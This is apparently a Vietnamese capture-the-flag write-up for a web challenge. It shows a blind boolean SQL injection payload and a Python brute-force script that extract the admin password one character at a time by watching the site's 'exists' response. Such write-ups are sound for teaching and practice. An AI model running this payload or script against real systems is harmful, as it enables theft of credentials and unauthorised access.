 # Task
![](https://hackmd.io/_uploads/Ska3BLffp.png)

## Recon
Ngay khi vừa mở challenge lên thì ta có một giao diện cho phép người dùng nhập vào đó là ```uid``` và trang web sẽ tìm xem người dùng với uid đó có tồn tại không 
![](https://hackmd.io/_uploads/HJNUUIMGa.png)
Nhưng nếu như ta nhập vào là admin thì sẽ ra kết quả khác
![](https://hackmd.io/_uploads/BJMcUUfzp.png)

## Exploit
Nhiệm vụ của chúng ta là tìm được password của admin và đăng nhập thành công vậy làm thế nào để có thể lấy được password của admin ở cột ```upw``` đây ta sẽ sử dụng payload như sau

```sql=
admin' AND (SELECT CASE WHEN substr(upw, 1, 1) = 'c' then (select 1 from users where uid ='admin') else (select 1 from users where uid = '1') END FROM users WHERE uid='admin') --/*
```
Giải thích đầu tiên là nhập vào đó là chữ admin để hoàn thành câu lệnh sql và thêm vào đó điều kiện là cắt chuỗi ở cột ```upw``` nếu như chữ cái đầu là chữ 'c' thì thực hiện câu lệnh ```select 1 from users where uid = 'admin'``` nếu không thì thực hiện câu lệnh ```select 1 from users where uid = '1'``` tại sao lại cần phải như thế là do ta có thể sử dụng dòng thông báo nếu như có tồn tại thì thông báo nếu không thì in ra thông báo không tìm thấy đây sẽ là điệu kiện để ta có thể biết rằng câu lệnh đã thành công hay chưa

Để đẩy nhanh tiến trình bruteforce mình có viết một đoạn script bằng python để hỗ trợ
```python=
import requests
import string
alphabet = "abcdefghjhijklmnopqrstuvwxyz0123456789_"
url = "http://18.141.217.137:32056"
payload = ""
headers = {"User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36"}
for i in range (1, 100):
    for char in alphabet:
        data = {
            "uid" : f"admin' AND (SELECT CASE WHEN substr(upw, 1, {i}) = '{payload + char}' then (select 1 from users where uid ='admin') else (select 1 from users where uid = '1') END FROM users WHERE uid='admin') --/*"
        }
        response = requests.get(url=url, headers=headers, params=data)
        if ("exists" in response.text):
            payload += char
            print("password is: " + payload)
            break


```
Kết quả chạy được là
![image alt](https://scontent.fhan5-11.fna.fbcdn.net/v/t1.15752-9/394545513_3018486608285249_1568288228069427033_n.png?_nc_cat=100&ccb=1-7&_nc_sid=8cd0a2&_nc_ohc=vco85FWhs-4AX87iNsh&_nc_ht=scontent.fhan5-11.fna&oh=03_AdS7UQUmjN5WyCDuJE8UCgWv8fObFEhjTfh0YiPRT0uOBg&oe=655C37E9)
Đăng nhập vào với username là ```admin``` và password vừa mới tìm được thôi

## Flag

![image alt](https://scontent.fhan5-6.fna.fbcdn.net/v/t1.15752-9/395007852_1316189552363083_6640319045436703742_n.png?_nc_cat=105&ccb=1-7&_nc_sid=8cd0a2&_nc_ohc=Mo1ZuJyQTlAAX847pIX&_nc_ht=scontent.fhan5-6.fna&oh=03_AdQYqhqCRCtTatWiZYmPJHT3Dy0QFIA57y2JQMjiPBXelw&oe=655C5B7B)
